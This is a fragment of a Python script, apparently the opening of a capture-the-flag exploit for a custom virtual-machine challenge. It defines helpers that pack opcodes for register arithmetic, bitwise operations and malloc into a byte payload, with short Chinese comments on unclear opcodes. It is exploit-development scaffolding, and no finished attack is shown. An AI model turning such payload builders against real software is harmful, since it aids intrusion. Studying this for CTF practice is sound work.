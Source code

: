 ```python
    global pay
    pay+=b'\xb0'+b'\x00'+p8(idx1)+p8(idx2)

def reg_addvalue(idx,value):
    global pay
    pay+=b'\x61'+b'\x01'+p8(idx)+p64(value)

def reg_addreg(idx1,idx2):
    global pay
    pay+=b'\x61'+b'\x00'+p8(idx1)+p8(idx2)

def reg_subvalue(idx,value):
    global pay
    pay+=b'\x63'+b'\x01'+p8(idx)+p64(value)

def reg_subreg(idx1,idx2):
    global pay
    pay+=b'\x63'+b'\x00'+p8(idx1)+p8(idx2)

def reg_mulvalue(idx,value):
    global pay
    pay+=b'\x65'+b'\x01'+p8(idx)+p64(value)

def reg_mulreg(idx1,idx2):
    global pay
    pay+=b'\x65'+b'\x00'+p8(idx1)+p8(idx2)

def reg_xorvalue(idx,value):
    global pay
    pay+=b'\x67'+b'\x01'+p8(idx)+p64(value)

def reg_xorreg(idx1,idx2):
    global pay
    pay+=b'\x67'+b'\x00'+p8(idx1)+p8(idx2)

def bitwise_not(idx):  #但是没有增加rip???
    global pay
    pay+=b'\x69'+p8(idx)

#free and malloc
def malloc(size):
    global pay
    pay+=b'\x14'+p32(size)

#0x13不知道在干嘛

#reg[idx]&=value
def reg_andvalue(idx,value):
    global pay
    pay+=b'\x11'+b'\x01'+p8(idx)+p64(value)

def reg_andreg(idx1,idx2):
    global pay
    pay+=b'\x11'+b'\x00'+p8(idx1)+p8(idx2)

#reg[idx]=value
def putvalue2reg(idx,value):
    global pay
    pay+=b'\x12'+b'\x01'+p8(idx)+p64(value)

#reg[idx]=*ptr
def putvalue2reg_plus(idx,ptr):
    global pay
```